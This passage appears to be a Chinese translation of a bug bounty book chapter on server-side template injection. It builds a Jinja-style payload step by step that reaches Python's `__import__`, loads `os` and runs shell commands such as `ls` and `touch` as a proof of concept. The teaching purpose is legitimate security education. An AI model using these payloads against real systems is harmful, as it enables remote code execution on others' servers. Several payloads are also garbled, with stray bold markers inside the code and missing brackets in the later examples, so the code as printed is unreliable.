我们现在有了一种访问导入功能的方法！由于内建类和函数存储在 Python 字典中，你可以通过引用该函数条目在字典中的键来访问`__import__`函数：

```
{% for x in [].__class__.__bases__[0].__subclasses__() %}
{% if 'catch_warnings' in x.__name__ %}
{{x()._module.__builtins__**['__import__']**}}
{%endif%}
{%endfor%}
```

现在我们可以使用`__import__`函数来导入`os`模块。你可以通过提供模块名称作为参数来用`__import__`导入模块。在这里，我们导入`os`模块，以便能够访问`system()`函数：

```
{% for x in [].__class__.__bases__[0].__subclasses__() %}
{% if 'catch_warnings' in x.__name__ %}
{{x()._module.__builtins__['__import__']**('os')**}}
{%endif%}
{%endfor%}
```

最后，调用`system()`函数，并将我们想要执行的命令作为`system()`函数的参数：

```
{% for x in [].__class__.__bases__[0].__subclasses__() %}
{% if 'catch_warnings' in x.__name__ %}
{{x()._module.__builtins__'__import__'.system**('ls')**}}
{%endif%}
{%endfor%}
```

你应该看到返回的`ls`命令的结果。这个命令列出了当前目录的内容。你已经成功执行了命令！现在，你应该能够通过这个模板注入执行任意的系统命令。

### 提交有效载荷进行测试

出于测试目的，你应该执行一些不会对目标系统造成伤害的代码。验证你已成功执行命令并获取操作系统访问权限的常见方法是，在系统上创建一个具有独特文件名的文件，比如*template_injection_by_YOUR_BUG_BOUNTY_USERNAME.txt*，这样该文件就明确成为你概念验证的一部分。使用`touch`命令在当前目录下创建一个具有指定名称的文件：

```
{% for x in [].__class__.__bases__[0].__subclasses__() %}
{% if 'warning' in x.__name__ %}
{{x()._module.__builtins__'__import__'.system('touch template_injection_by_vickie.txt')}}
{%endif%}
{%endfor%}
```

不同的模板引擎需要不同的升级技巧。如果你对这个领域感兴趣，我鼓励你进行更多的研究。代码执行和沙箱逃逸是非常迷人的话题。我们将在第十八章讨论更多关于如何在目标系统上执行任意代码的内容。如果你对沙箱逃逸感兴趣，这些文章更详细地讨论了这一话题（本章的示例来自《程序员帮助》中的一个提示）：

+   CTF Wiki, https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/

+   HackTricks, [`book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes/`](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes/)

+   Programmer Help, [`programmer.help/blogs/python-sandbox-escape.html`](https://programmer.help/blogs/python-sandbox-escape.html)

## 自动化模板注入
